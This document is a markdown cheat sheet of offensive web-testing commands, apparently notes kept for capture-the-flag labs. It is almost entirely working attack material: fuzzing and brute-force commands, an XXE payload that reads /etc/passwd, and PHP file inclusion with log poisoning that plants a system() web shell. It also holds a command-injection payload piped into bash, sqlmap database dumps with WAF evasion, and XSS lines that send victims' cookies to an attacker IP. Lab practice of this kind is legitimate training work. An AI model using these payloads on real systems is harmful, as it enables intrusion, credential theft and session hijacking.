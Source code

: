[back](/README.md)
#### Discover hidden directories:
```linux
wfuzz -w /usr/share/dirb/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://$IP/island/2100/FUZZ.ticket

feroxbuster -u http://$IP/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -s 200
```

#### Discover subdomains:
```
wfuzz -c -w /usr/share/dirb/wordlists/subdomains-top1million-5000.txt -u "http://team.thm" -H "Host: FUZZ.team.thm" --hw 977 
gobuster vhost -u http://holo.live -w /usr/share/seclists/Discovery/DNS/subdomains.txt -t 30
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -fw 125
ffuf -u http://nahamstore.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.nahamstore.thm"
amass enum -brute -passive -d nahamstore.com | anew subdomains.txt
```
#### Discover files with `wfuzz` :
```
wfuzz -c -w /usr/share/dirb/wordlists/LFI-gracefulsecurity-linux.txt -u http://dev.team.thm/script.php\?page\=FUZZ --hw=0
```
#### Brute force wordpress
```
wpscan --url http://target_on_wp.com/ -e u -P /usr/share/wordlists/rockyou.txt
```
#### Example of XXE 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```
#### php local file inclusion
```
http://10.10.62.183/?view=php://filter/read=convert.base64-encode/resource=dog/../index
curl "http://10.10.62.183/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
http://10.10.62.183/?view=dog/../../../../var/log/apache2/access.log&ext&cmd='command'
```
#### bypass waf sqlmap
```
--tamper=space2comment
```

#### cadaver for WebDAV

#### payload in json format
```
"\";echo <base64 payload> | base64 -d | bash;\""
```
#### sqlmap
```bash
sqlmap -r req.txt -p <parametr> --dbs
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
sqlmap -r req.txt -D <database_name> -T <table_name> --columns
sqlmap -r req.txt-p  -D <database_name> --dump-all
```

#### xss
```js
webup
<script>window.location='http://$IP:80/?cookie=' + document.cookie</script>
```
##### steal cookie
```
webup
<script>window.location='http://<ip>:port/?cookie=' + document.cookie</script>
```